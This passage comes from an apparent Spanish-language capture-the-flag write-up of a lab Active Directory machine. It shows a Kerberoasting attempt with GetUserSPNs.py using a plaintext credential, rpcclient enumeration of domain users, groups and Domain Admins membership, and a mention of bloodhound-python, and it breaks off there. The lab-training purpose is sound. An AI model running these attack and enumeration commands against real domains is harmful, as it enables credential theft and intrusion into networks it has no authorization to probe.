 ### Kereroasting attack {-}

Los ataques Kereroasting se pueden manejar con la utilidad 
```bash
 GetUserSPNs.py 
```


```bash
GetUserSPNs.py blackfield.local/support:#00^BlackKnight@10.10.10.192 -request -dc-ip 10.10.10.192
```

Esta utilidad nos retorna un mensaje como que no son las buenas credenciales.

### Enumeracion de usuarios con rpcclient {-}

Ahora que tenemos credenciales validas, intentamos connectarnos al 
```bash
 rpcclient 
```


```bash
rpcclient -U "support%#00^BlackKnight" 10.10.10.192

> rpcclient $> enumdomusers
```

Ahora podemos ver la lista de los usuarios registrados a nivel de systema. Buscamos usuarios del grupo Admins via la busqueda de los diferentes grupos.

```bash
> rpcclient $> enumdomgroups
```

copiamos el rid del grupo 
```bash
 Domain Admins 
```
 

```bash
> rpcclient $> querygroupmem 0x200
```

Aqui podemos ver el **rid** del usuario que hace parte del grupo admin.

```bash
> rpcclient $> queryuser 0x1f4
```

Vemos quel usuario es **Administrator**, pero lo hacemos para saber si hay otros usuarios administradores pero aqui no es el caso.

### Enumeracion del systema con bloodhound-python para ganar acceso a la maquina {-}

Con la utilidad 
```bash
 bloodhound-python 
```
, podemos enumerar cosas si tener que estar connectado a la maquina victima.
